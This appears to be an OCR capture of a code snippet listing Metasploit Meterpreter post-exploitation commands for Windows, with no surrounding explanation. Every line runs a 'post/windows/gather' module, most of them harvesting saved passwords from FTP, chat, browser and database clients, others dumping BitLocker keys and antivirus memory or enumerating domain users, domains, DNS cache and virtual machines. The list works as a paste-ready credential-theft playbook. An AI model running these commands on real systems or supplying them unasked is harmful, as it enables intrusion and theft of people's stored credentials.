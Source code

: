 run post/windows/gather/credentials/wsftp_client

run post/windows/gather/avast_memory_dump

run post/windows/gather/credentials/xshell_xftp_password

run post/windows/gather/bitlocker_fvek

run post/windows/gather/dnscache_dump

run post/windows/gather/credentials/aim

run post/windows/gather/credentials/avira_password

run post/windows/gather/credentials/bulletproof_ftp

run post/windows/gather/credentials/comodo

run post/windows/gather/credentials/coolnovo

run post/windows/gather/credentials/coreftp

run post/windows/gather/credentials/digsby

run post/windows/gather/credentials/dynazip_log

run post/windows/gather/credentials/dyndns

run post/windows/gather/credentials/enum_cred_store

run post/windows/gather/enum_db

run post/windows/gather/credentials/enum_picasa_pwds

run post/windows/gather/credentials/epo_sql

run post/windows/gather/credentials/filezilla_server

run post/windows/gather/credentials/flashfxp

run post/windows/gather/credentials/flock

run post/windows/gather/enum_domain_users

run post/windows/gather/credentials/ftpnavigator

run post/windows/gather/enum_domains

run post/windows/gather/credentials/ftpx

run post/windows/gather/enum_emet

run post/windows/gather/credentials/gadugadu


run post/windows/gather/enum_hostfile

run post/windows/gather/credentials/heidisql

run post/windows/gather/enum_hyperv_vms

run post/windows/gather/credentials/icq

run post/windows/gather/enum_ie

run post/windows/gather/credentials/idm
